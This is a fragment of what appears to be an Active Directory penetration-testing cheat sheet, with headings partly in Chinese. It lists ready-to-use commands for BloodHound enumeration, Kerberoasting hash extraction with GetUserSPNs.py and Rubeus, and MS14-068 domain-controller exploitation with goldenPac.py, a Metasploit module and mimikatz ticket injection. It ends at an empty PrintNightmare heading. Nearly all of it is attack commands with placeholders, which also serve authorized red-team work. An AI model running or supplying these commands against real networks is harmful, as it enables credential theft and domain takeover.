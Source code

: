 #### 3.bloodhound

~~~ABAP
bloodhound-python -d <domain> -u <user> -p <password> -gc <dc> -c all
~~~

#### 4.powerview / pywerview



### Kerberoasting攻击

#### 获取hash

~~~ABAP
GetUserSPNs.py -request -dc-ip <dc_ip> <domain>/<user>:<password>

Rubeus kerberoast
~~~



#### 查找 kerberoastable 账号

~~~ABAP
Get-DomainUser -SPN -Properties SamAccountName, ServicePrincipalName

MATCH (u:User {hasspn:true}) RETURN u

MATCH (u:User {hasspn:true}), (c:Computer), p=shortestPath((u)-[*1..]->(c)) RETURN p
~~~



### MS14-068

FindSMB2UPTime.py <ip>

~~~ABAP
rpcclient $> lookupnames <name>

wmic useraccount get name,sid

auxiliary/admin/kerberos/ms14_068_kerberos_checksum
~~~



~~~ABAP
goldenPac.py -dc-ip <dc_ip> <domain>/<user>:'<password>'@<target>
~~~



~~~ABAP
kerberos::ptc "<ticket>"
~~~



### PrintNightmare 
